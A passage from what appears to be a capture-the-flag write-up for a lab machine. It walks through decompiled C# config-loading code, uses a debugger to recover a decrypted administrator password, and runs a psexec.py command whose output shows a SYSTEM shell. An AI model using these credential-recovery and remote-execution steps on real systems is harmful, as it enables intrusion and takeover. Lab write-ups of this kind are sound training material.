 ![image-20200605171557819](https://0xdfimages.gitlab.io/img/image-20200605171557819.png)

After those checks, it loads the config file:

```

      else
      {
        LdapSearchSettings ldapSearchSettings = new LdapSearchSettings();
        string[] array = File.ReadAllLines(MyProject.Application.CommandLineArgs[0]);
        foreach (string text in array)
        {
          if (text.StartsWith("Domain=", StringComparison.CurrentCultureIgnoreCase))
          {
            ldapSearchSettings.Domain = text.Substring(text.IndexOf('=') + 1);
          }
          else if (text.StartsWith("User=", StringComparison.CurrentCultureIgnoreCase))
          {
            ldapSearchSettings.Username = text.Substring(text.IndexOf('=') + 1);
          }
          else if (text.StartsWith("Password=", StringComparison.CurrentCultureIgnoreCase))
          {
            ldapSearchSettings.Password = CR.DS(text.Substring(text.IndexOf('=') + 1));
          }
        }

```

I’ll put a break point on the next line after the password is decrypted and set. I’ll select Debug -> Start Debugging…, and add `ldap.conf` as an argument:

![image-20200605171635589](https://0xdfimages.gitlab.io/img/image-20200605171635589.png)

On hitting OK, it runs to my break point, and I can see the decrypted password:

[![](https://0xdfimages.gitlab.io/img/image-20200605171717068.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200605171717068.png)

Password: XtH4nkS4Pl4y1nGX

### PSExec

With the administrator password, I can now PSExec to get a shell as SYSTEM:

```

root@kali# rlwrap psexec.py administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
Impacket v0.9.22.dev1+20200422.223359.23bbfbe1 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.178.....
[*] Found writable share ADMIN$
[*] Uploading file OYlCNyku.exe
[*] Opening SVCManager on 10.10.10.178.....
[*] Creating service zpAT on 10.10.10.178.....
[*] Starting service zpAT.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```
